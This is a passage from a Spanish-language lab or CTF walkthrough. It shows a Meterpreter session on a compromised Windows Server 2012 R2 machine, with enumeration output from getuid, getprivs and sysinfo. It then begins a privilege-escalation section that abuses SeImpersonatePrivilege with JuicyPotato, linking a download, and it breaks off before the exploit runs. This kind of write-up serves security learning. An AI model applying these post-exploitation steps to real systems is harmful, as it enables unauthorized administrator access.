 ```bash

[*] Server stopped.

meterpreter > 

```

Vemos con que usuario estamos en el sistema con `getuid` y que privilegios tiene `getprivs`:

```bash
meterpreter > getuid
Server username: WIN-RE8NJPG9K5N\hacker

meterpreter > getprivs

Enabled Process Privileges
==========================

Name
----
SeChangeNotifyPrivilege
SeCreateGlobalPrivilege
SeImpersonatePrivilege
SeIncreaseWorkingSetPrivilege
```

Buscamos información del sistema con `sysinfo`:

```bash
meterpreter > sysinfo
Computer        : WIN-RE8NJPG9K5N
OS              : Windows Server 2012 R2 (6.3 Build 9600).
Architecture    : x64
System Language : es_ES
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
```

# Escalada de privilegios

Ahora nos queda obtener privilegios de administrador. Para ello, nos aprovechamos de los privilegios del usuario. En [hacktricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens) vemos las diferentes posibilidades que tenemos. Yo voy a usar [JuicyPotato](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/juicypotato) para la escalada.

Descargamos [JuicyPotato](https://objects.githubusercontent.com/github-production-release-asset-2e65be/142582717/538c8db8-9c94-11e8-84e5-46a5d9473358?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=releaseassetproduction%2F20240621%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20240621T172808Z&X-Amz-Expires=300&X-Amz-Signature=cc316de6c04358d3f93c007d7c6ca6e16edc972949549ffce1471cc4526e01e0&X-Amz-SignedHeaders=host&actor_id=0&key_id=0&repo_id=142582717&response-content-disposition=attachment%3B%20filename%3DJuicyPotato.exe&response-content-type=application%2Foctet-stream) :
